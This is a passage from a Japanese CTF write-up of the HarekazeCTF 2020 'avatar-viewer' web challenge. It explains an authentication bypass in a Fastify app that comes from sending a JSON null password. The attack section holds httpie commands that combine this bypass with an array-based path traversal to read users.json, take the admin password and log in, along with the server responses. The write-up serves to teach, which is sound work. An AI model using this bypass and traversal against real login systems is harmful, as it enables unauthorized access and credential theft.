 `users.json`：
```json
{
  "guest": "guest",
  "admin-(censored)": "<censored>"
}
```

なんとかして`users[username] != password`を騙したいです。

ところで、POSTされたデータが`application/x-www-form-urlencoded`の場合は[fastify-formbody](https://github.com/fastify/fastify-formbody)でパースされます[^1]が、`application/json`の場合もちゃんと認識され普通にパースして処理されるようです。

[^1]: この問題の本質ではないですが、fastify-formbodyは[qs](https://github.com/ljharb/qs)ではなくnodeのbuiltinである[querystring](https://nodejs.org/api/querystring.html)を使っているらしいです（ref. https://github.com/fastify/fastify-formbody/tree/v5.0.0#upgrading-from-4x ）。知らなかった。配列指定がいつもの`hoge[]=xxx`ではないので注意したい。

JSONならnullを注入できるので
```json
{
    "username": "適当な値（文字列でなくても良い）",
    "password": null
}
```
を送信すると、`users[username] != password`が`undefined != null`と等価になり、好きな値でログインできてしまいます。

あとは型を騙しまくれば、フラグまで一直線です。


### 攻撃

```shell
$ echo '{"username": ["../users.json"], "password": null }' | http --session=./session.json POST "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/login"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 0
Date: Sat, 26 Dec 2020 16:23:22 GMT
Server: nginx/1.15.3
location: /avatar-viewer/profile
set-cookie: avatar-session=4DtvZGJ5xh4IdwpoTHTKqtqoUmcCBp2zSgK6CAMaWXvR98Y4lp7Ou9xzVnTXxw%3D%3D%3BqYFmgKVnKWV1hN0PhJ%2BdansdlGna0O40

$ http --session=./session.json GET "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/myavatar.png"
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 121
Content-Type: image/png
Date: Sat, 26 Dec 2020 16:24:05 GMT
Server: nginx/1.15.3

{
  "guest": "guest",
  "admin-b01b9d62015f8b68": "b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25"
}

$ echo '{"username": ["admin-b01b9d62015f8b68"], "password": "b56c497ff08f76536631f2cc1100521ffabfece3d2da67c71176d69dcba41a25" }' | http --session=./session.json POST "http://harekaze2020.317de643c0ae425482fd.japaneast.aksapp.io/avatar-viewer/login"
HTTP/1.1 302 Found
Connection: keep-alive
Content-Length: 0
Date: Sat, 26 Dec 2020 16:25:13 GMT
Server: nginx/1.15.3
location: /avatar-viewer/profile
set-cookie: avatar-session=XXdk1ovHIrBW8U%2F50L9zKVQFKvyFTUXkNnBASPmXeesuvBLpiR52pXg9aHuK0nQOKXB%2BqlrJYg%3D%3D%3B1%2F3EwWhGvWy47KQd0sKlEKZwbxHpMTSE

```